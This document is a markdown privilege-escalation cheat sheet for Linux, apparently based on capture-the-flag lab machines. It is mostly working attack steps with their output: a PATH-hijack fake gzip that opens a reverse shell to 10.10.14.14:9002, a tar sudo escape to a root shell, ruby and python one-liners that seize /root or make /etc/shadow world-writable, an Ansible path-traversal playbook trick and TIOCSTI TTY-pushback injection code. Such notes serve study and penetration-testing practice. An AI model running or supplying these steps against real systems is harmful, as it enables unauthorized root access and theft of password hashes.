 
#### Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


#### Finding GUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

#### Finding Capabilities
```
getcap -r / 2>/dev/null
```

#### Find running TCP connections

```bash
netstat -tunlpn
```

res:-
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                   
udp6       0      0 ::1:161                 :::*                                -                   

```
#### Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


####  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```


#### with capabilities ruby 

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown

```
/usr/local/bin/ruby = cap_chown+ep
```
![rubyCapChown.png](rubyCapChown.png)

pass id of user which is 1002 and location and get access to that file
```ruby
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

```bash
george@empline:/root$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root/root.txt")'
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
george@empline:/root$ 
```

python:-
```python
python -c 'import os;os.chmod("/etc/shadow",0666)
```

#### Privesc with sudo Ansible 

```bash
sudo -l
```

![ansiblePrivesc01.png](ansiblePrivesc01.png)

```bash
nano /tmp/a.yml
```

```bash
chmod 777 /tmp/a.yml
```

paste below yml

```yml
---
- hosts: localhost
  tasks:
    - name: Run id                                    
      command: id
      register: id_output  # Register the output of the command

    - name: Display the output of 'id'
      debug:
        var: id_output.stdout  # Print the captured output

```


```bash
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/a.yml
```

![ansiblePrivesc02.png](./ansiblePrivesc02.png)

ref:-
https://tryhackme.com/r/room/backtrack
https://youtu.be/FPD3BFv_f_Y?si=Jwof3PkTrzcBqBQY&t=2343

#### Privesc with ttypushback

```bash
./pspy64
```

![ttypushback01.png](./ttypushback01.png)

```bash
nano /dev/shm/a.py
```

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

or 

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'ls -la /root >/dev/shm/a.txt;chmod 777 a.txt' + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

![ttypushback02.png](./ttypushback02.png)
wait for 1-2 min for cron

```bash
ls -la
```
```bash
cat a.txt
```


![ttypushback03.png](./ttypushback03.png)

ref:-
https://tryhackme.com/r/room/backtrack
https://www.errno.fr/TTYPushback.html
https://youtu.be/FPD3BFv_f_Y?si=j0MjXQytaRM2WRQe&t=5466